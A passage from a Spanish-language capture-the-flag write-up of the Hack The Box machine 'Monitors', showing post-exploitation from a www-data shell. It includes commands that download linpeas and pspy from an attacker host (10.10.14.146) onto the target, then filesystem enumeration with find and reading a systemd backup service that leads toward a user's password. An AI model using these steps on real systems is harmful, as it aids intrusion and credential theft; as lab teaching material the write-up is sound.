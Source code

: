 La pegamos en la terminal y ya podríamos hacer peticiones llamando a la función `__curl` desde la línea de comandos, lindo lindo:

```bash
www-data@monitors:/tmp$ __curl http://10.10.14.146:8000/linpeas.sh > lin.sh    
www-data@monitors:/tmp$ __curl http://10.10.14.146:8000/pspy > pspy    
```

Pero con ninguna de las dos herramientas vemos algo útil :(

...

## Encontramos contraseña de <u>marcus</u> [📌](#backupscript-creds-marcus) {#backupscript-creds-marcus}

Volviendo a enumerar cada servicio, sus archivos y contenido no hay nada llamativo a la vista (algunos tienen mucho código), en este punto empece a jugar con `find` de nuevo, pero ahora buscando archivos escondidos, archivos que empezaran o terminaran con **marcus**, con **WordPress** y con **cacti**, con esta última búsqueda encontramos algo interesante:

```bash
www-data@monitors:/tmp$ find / -name "cacti*" 2>/dev/null
/etc/apache2/sites-available/cacti-admin.monitors.htb.conf
/etc/apache2/sites-enabled/cacti-admin.monitors.htb.conf
/etc/systemd/system/cacti-backup.service
/lib/systemd/system/cacti-backup.service
/var/log/cacti-access.log
/var/log/cacti-error.log
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitor.htb
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitors.htb
/usr/share/cacti
/usr/share/cacti/cacti
...
# Todos los archivos del sitio web cacti
```

Viendo cada contenido, caemos en estos archivos de [servicio](https://www.digitalocean.com/community/tutorials/how-to-use-systemctl-to-manage-systemd-services-and-units-es):

```bash
/etc/systemd/system/cacti-backup.service
/lib/systemd/system/cacti-backup.service
```

Y observando el contenido del primero obtenemos:

```bash
www-data@monitors:/tmp$ cat /etc/systemd/system/cacti-backup.service
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
```
